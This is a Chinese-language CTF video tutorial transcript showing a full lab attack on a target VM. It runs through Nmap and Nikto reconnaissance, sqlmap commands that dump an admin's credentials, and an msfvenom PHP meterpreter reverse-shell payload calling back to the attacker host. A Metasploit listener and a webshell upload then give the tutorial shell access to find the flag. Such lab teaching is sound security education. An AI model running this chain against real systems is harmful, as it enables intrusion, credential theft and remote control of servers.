





# CTF夺旗全套视频教程-网络安全：P9：CTF夺旗-sql注入(get)

在本节课中，我们将学习Web安全中的SQL注入漏洞。我们将通过利用SQL注入漏洞获取系统的用户名和密码，登录系统后台，寻找上传点，上传Webshell并执行，最终获取目标服务器的flag值。

## 什么是SQL注入漏洞

上一节我们介绍了课程目标，本节中我们来看看SQL注入漏洞的定义。

SQL注入攻击，指的是通过构建特殊的输入作为参数传入到Web应用程序中。这些输入大都是SQL语句里的一些组合。通过执行我们构造的SQL语句，进而执行我们想要的操作。

SQL注入漏洞产生的原因，可以说是程序没有细致地过滤用户输入的数据，致使非法数据侵入系统并执行了对应的操作。

## SQL注入产生的原因

了解了SQL注入的基本概念后，本节我们来分析其产生的具体原因。

SQL注入产生的原因通常表现在以下几个方面：

以下是SQL注入漏洞常见的几个成因：
1.  不正当的类型处理。
2.  不安全的数据库配置。
3.  不合理的查询集处理。
4.  不当的错误处理。
5.  转义字符处理不当。
6.  多个提交处理不当。

实际上，其本质原因是程序允许用户输入，而用户输入了恶意字符后，系统没有对其过滤或过滤不严格，从而导致了SQL注入漏洞的出现。

## 实验环境搭建

在开始利用漏洞之前，我们需要先了解本次实验的环境配置。

攻击机的IP地址是 `192.168.253.12`，采用的是Kali Linux系统。靶机的IP地址是 `192.168.253.15`。

不论是在日常工作还是在CTF比赛中，我们的核心目标都是获得靶机系统的最高权限（root权限）。在CTF比赛中，获得root权限后，还需要找到并获取指定的flag值。

## 信息收集与探测

本节我们将对靶机进行初步的信息探测，这是渗透测试的第一步。

首先，我们需要探测靶机开放的服务信息以及服务的版本信息。我们使用Nmap工具进行扫描。

打开终端，输入以下命令：
```bash
nmap -sV 192.168.253.15
```
Nmap会向靶机发送探测数据包，并将处理后的结果输出到终端。



除了探测服务版本，我们还可以使用更全面的命令来收集信息。



以下是使用Nmap进行深度扫描的命令：
```bash
nmap -T4 -A -v 192.168.253.15
```
参数 `-T4` 代表使用最快速度扫描，`-A` 表示启用所有高级扫描模块，`-v` 表示显示详细输出。

我们还可以对具体的服务进行更细致的探测。

接下来，我们使用Nikto工具来探测HTTP服务中的敏感信息。
```bash
nikto -host http://192.168.253.15
```
如果HTTP服务使用默认的80端口，端口号可以省略；如果是其他端口（如8080），则需要加上 `:端口号`。

## 信息分析与漏洞扫描

收集到信息后，我们需要对其进行分析，挖掘可利用的线索。

分析Nmap和Nikto的扫描结果，我们发现靶机开放了HTTP服务。Nikto的扫描结果中提示存在一个管理员登录页面：`/admin/login.php`。

我们在浏览器中访问该页面：`http://192.168.253.15/admin/login.php`。

这是一个登录界面。我们尝试使用常见弱口令（如admin/admin）登录，但未能成功。这表明系统不存在简单的弱口令漏洞。

因此，我们需要寻找系统的其他漏洞来获取登录凭证。下一步操作是对系统进行漏洞扫描。

我们将使用Kali Linux集成的Web漏洞扫描器——OWASP ZAP。它是一款流行的免费安全工具，能自动发现Web应用程序中的安全漏洞。

启动OWASP ZAP，点击“Automated Scan”按钮。在URL to attack输入框中填入靶机地址 `http://192.168.253.15`，然后点击“Attack”开始主动扫描。

扫描完成后，工具会以不同颜色标记漏洞风险等级。深红色/黄色代表高危漏洞（如SQL注入、反射型XSS），黄色代表中危，浅黄色代表低危。

扫描结果显示存在SQL注入高危漏洞。接下来，我们将利用这个漏洞。

## 利用SQL注入获取凭证

本节我们将使用SQLMap工具来利用扫描发现的SQL注入漏洞。

SQLMap是一款自动化的SQL注入工具。首先，我们使用它来获取数据库名。
```bash
sqlmap -u "http://192.168.253.15/vuln.php?id=1" --dbs
```
参数 `-u` 指定目标URL，`--dbs` 表示枚举数据库。

命令执行后，返回了两个数据库名：`information_schema`（系统数据库）和 `portal_block`（目标数据库）。我们关注后者。

获取数据库名后，我们查看该数据库中有哪些表。
```bash
sqlmap -u "http://192.168.253.15/vuln.php?id=1" -D portal_block --tables
```
参数 `-D` 指定数据库名，`--tables` 表示枚举表。

返回的结果中包含 `users` 表，这很可能存储了用户登录信息。接下来，我们查看该表中有哪些字段（列）。
```bash
sqlmap -u "http://192.168.253.15/vuln.php?id=1" -D portal_block -T users --columns
```
参数 `-T` 指定表名，`--columns` 表示枚举列。

返回的字段中包含 `login` 和 `password`。最后，我们导出这两个字段的数据。
```bash
sqlmap -u "http://192.168.253.15/vuln.php?id=1" -D portal_block -T users -C login,password --dump
```
参数 `-C` 指定要导出的列名，`--dump` 表示导出数据。

SQLMap成功导出了用户名 `admin` 和其密码的MD5哈希值。工具内置的哈希破解功能识别出该MD5对应的明文密码是 `P4SSW0RD`。

## 登录后台与上传Webshell

成功获取凭证后，我们使用用户名 `admin` 和密码 `P4SSW0RD` 登录系统后台。

登录后台后，我们的下一步目标是上传一个Webshell，从而获取服务器的命令执行权限。在上传之前，需要先生成Webshell并启动监听。



首先，在Kali上使用MSFvenom生成一个PHP反向连接木马。
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw
```
参数 `-p` 指定payload类型，`LHOST` 设置监听机（攻击机）IP，`LPORT` 设置监听端口，`-f raw` 输出原始格式。

从生成的代码中，复制从 `<?php` 开始的部分。在桌面创建一个文件，例如 `shell.php`，将代码粘贴进去保存。



接下来，在Kali上使用Metasploit框架启动监听器，等待靶机连接。
1.  打开终端，输入 `msfconsole` 启动Metasploit。
2.  使用以下命令配置监听：
    ```bash
    use exploit/multi/handler
    set payload php/meterpreter/reverse_tcp
    set LHOST 192.168.253.12
    set LPORT 4444
    exploit
    ```



## 寻找上传点与获取Flag

Metasploit监听器配置好后，我们需要在网站后台寻找文件上传功能点。

在后台找到文件上传或管理模块（可能位于“插件管理”、“主题上传”、“媒体库”等位置），将刚才生成的 `shell.php` 文件上传。

上传成功后，在浏览器中访问这个Webshell文件的URL，例如 `http://192.168.253.15/uploads/shell.php`。此时，Metasploit控制台会收到一个反向连接会话（meterpreter session）。

在meterpreter会话中，我们可以执行系统命令。首先尝试获取当前用户权限，然后寻找flag文件。Flag文件通常位于根目录、用户主目录或名为`flag`、`flag.txt`、`proof.txt`的文件中。
```bash
# 在meterpreter会话中执行
shell
# 进入Linux命令行后查找flag
find / -name "*flag*" 2>/dev/null
cat /路径/到/flag文件
```
找到并读取flag文件内容，即完成了本次CTF挑战的核心目标。

## 总结

本节课中我们一起学习了SQL注入漏洞的完整利用流程。我们从信息收集开始，使用Nmap和Nikto探测目标；然后利用OWASP ZAP扫描发现SQL注入漏洞；接着使用SQLMap自动化工具注入获取后台管理员账号密码；成功登录后台后，通过MSFvenom生成Webshell并利用Metasploit建立监听，最终上传Webshell获得服务器控制权并找到flag。这个过程涵盖了Web渗透测试中从外网突破到内网控制的关键步骤。